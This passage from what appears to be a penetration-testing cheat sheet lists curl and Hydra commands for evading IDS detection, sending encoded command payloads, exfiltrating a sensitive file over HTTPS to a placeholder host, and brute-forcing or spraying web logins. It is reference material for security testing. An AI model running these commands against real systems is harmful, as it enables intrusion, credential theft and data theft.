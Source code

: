 ### Defense Evasion

#### HTTPS Traffic Obfuscating

*   **Tool:** \[\[cURL]]

    ```bash
    curl -H "X-Forwarded-For: 127.0.0.1" https://<target_ip>/
    ```
* **Description:** Obfuscates the source of HTTP requests to evade detection by IDS/IPS systems.

#### Encoding Payloads

*   **Tool:** \[\[cURL]]

    ```bash
    echo -n 'payload' | base64
    curl https://<target_ip>/?cmd=$(echo 'payload_base64' | base64 -d)
    ```
* **Description:** Encodes payloads in Base64 or other formats to bypass security filters.

### Data Exfiltration

#### Data Exfiltration via HTTPS

*   **Tool:** \[\[cURL]], \[\[Custom Scripts]]

    ```bash
    curl -k -X POST https://<target_ip>/upload --data-binary @sensitive_data.txt
    ```
* **Description:** Exfiltrating sensitive data over an encrypted HTTPS connection to avoid detection.

## Exploits and Attacks

### Password Attacks

#### Password Brute Force

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra https-post-form "https://<target_ip>/login:username=^USER^&password=^PASS^:F=incorrect" -l <username> -P <password_list>
    ```
* **Description:** Test a single username against multiple passwords.

#### Password Spray

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra https-post-form "http://<target_ip>/login:username=^USER^&password=^PASS^:F=incorrect" -l <username_list> -P <password>
    ```
* **Description:** Test a multiple usernames against a single password.
